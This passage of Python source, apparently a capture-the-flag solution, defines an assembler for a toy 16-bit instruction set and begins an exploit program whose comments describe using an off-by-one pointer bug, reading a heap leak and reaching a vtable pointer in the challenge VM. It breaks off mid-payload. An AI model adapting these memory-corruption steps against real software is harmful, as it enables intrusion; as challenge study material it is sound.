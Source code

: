 ```python

	def parse_num(s):
		return int(s, 16 if s.startswith("0x") else 10)

	for l in lines:
		l = l.strip()
		if l == "" or l[0] == "#":
			continue
		elif l[0] == "@":
			ptr = parse_num(l[1:])
		elif l[0] == ".":
			val = parse_num(l[1:])
			if (written[ptr] or written[ptr + 1]):
				print("WARNING: overwrite " + hex(ptr))
			code[ptr] = val & 0xff
			code[ptr + 1] = (val >> 8) & 0xff
			written[ptr] = written[ptr + 1] = True
			ptr += 2
		else:
			op, addr = l.split()
			addr = parse_num(addr)
			op_num = ops_list.index(op)
			if (written[ptr] or written[ptr + 1]):
				print("WARNING: overwrite " + hex(ptr))
			code[ptr] = addr & 0xff
			code[ptr + 1] = ((addr >> 8) & 0xf) | (op_num << 4)
			written[ptr] = written[ptr + 1] = True
			ptr += 2
	
	return bytes(code)
			

code1 = asm_toy(
f"""
# off-by-one increase mem ptr
lda 0x800
tat 0
lda 0x802
stt 0

# read heap leak
@0x10
lda 0xff8
sta 0x600
lda 0xffa
sta 0x602
lda 0xffc
sta 0x604
lda 0xffe
sta 0x606

# change mem ptr to give us access to vtable ptr
lda 0x7fc
jmp 0x7fe

@0x3fa
jmp 0x810

@0x408
sta 0xff7

# code executed after mem ptr decreased for access to vtable ptr
@0x418
```